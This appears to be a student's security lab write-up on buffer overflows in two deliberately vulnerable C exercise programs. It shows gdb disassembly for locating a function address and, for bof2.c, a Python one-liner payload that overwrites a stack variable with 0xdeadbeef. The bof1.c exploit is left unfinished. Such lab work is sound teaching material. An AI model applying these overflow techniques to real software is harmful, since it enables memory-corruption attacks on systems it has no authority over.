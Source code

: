 # 22110026, Lê Huy Hoàng
**Lab#1: Conduct buffer overflow attack on _bof1.c_, _bof2.c_, _bof3.c_ programs.**
## bo1.c
Conduct a buffer overflow attack on _bof1.c_ 
```ruby
#include<stdio.h>
#include<unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        prinf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
1. **Vulnerabilities:** the`get() function` is unsafe because it does not perform any bounds checking on the input. If the user provides input larger than the buffer (which is `char array[200]` in this case), it will overwrite adjacent memory locations, potentially including the return address of the `vuln() function`.
2. **Goal:** You want to overflow the array buffer in such a way that the return address is overwritten with the address of `secretFunc()`
 - Step 1: Indentify the buffer size and offsets
  - The buffer `array` is 200 bytes, but you need to determine where the return address is stored relative to the start of the buffer.
  - This can be done by trial and error, injecting a large enough input to identify when the overflow occurs.
 - Step 2: Find the Address of `secretFunc()`
  - You can use a debugger (e.g.,`gdb`) to find the address of `secretFunc()`. The address of this function will be injected into the return address location. Use `gdb` to compile and load the program:
    ```ruby
    gcc -g bof1.c -o bof1
    gdb ./bof1
    ```
  - Inside `gdb`, find the address of `secretFunc()`:
    ```ruby
    (gdb) disassemble secretFunc
    ```
  - This will give you the memory address where `secretFunc()` is stored.
    ```ruby
    (gdb) disassemble secretFunc
    Dump of assembler code for function secretFunc:
    0x00000000000011b5 <+0>:     push   %rbp
    0x00000000000011b6 <+1>:     mov    %rsp,%rbp
    0x00000000000011b9 <+4>:     lea    0xe40(%rip),%rax        # 0x2000
    0x00000000000011c0 <+11>:    mov    %rax,%rdi
    0x00000000000011c3 <+14>:    mov    $0x0,%eax
    0x00000000000011c8 <+19>:    call   0x1020 <printf@plt>
    0x00000000000011cd <+24>:    nop
    0x00000000000011ce <+25>:    pop    %rbp
    0x00000000000011cf <+26>:    ret
    End of assembler dump.
    (gdb) 
    ```
 - The address is  `0x00000000000011b5`.
 - Step 3: Craft the malicious input
   - 200 characters to fill up the buffer
   - Additional padding to reach the return address
   - the return address of `secretFunc()`

## bof2.c
Conduct a buffer overflow attack on _bof2.c_ 
```ruby
#include <stdlib.h>
#include <stdio.h>
void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];
  fgets(buf,45,stdin);
  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
   }
}
```
- Step 1: Compile the program
First, ensure the program is compiled without stack protection and with debugging information. You can use the following command:
```gcc -o buffer_overflow buffer_overflow.c -fno-stack-protector -z execstack -g```
- Step 2: Run the program
```./bof2```
###Step 3: Check the buffer size
You can do this by input some random things, for example: 
```ruby
/mnt/d/uni/2025/info/seclabs/bof $ ./bof2
test input
[buf]: test input
[check] 0x4030201
```
- Step 4: Create a exploit input
You need to construct an input that:
    - Fills buf with 40 characters.
    - Overwrites check with the value 0xdeadbeef in little-endian format.
- Step 5: Generate the input
```python -c 'print("A" * 40 + "\xef\xbe\xad\xde")' > exploit_input```
This command creates a file named exploit_input containing:
    - 40 'A's (filling buf)
    - The bytes ef be ad de (overwriting check)
- Step 6: run the program with exploit input
```./bof2 < exploit_input```
- Step 7: Check the output
If successful, you get this: 
```ruby
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[check] 0xdeadbeef
Yeah! You win!
```

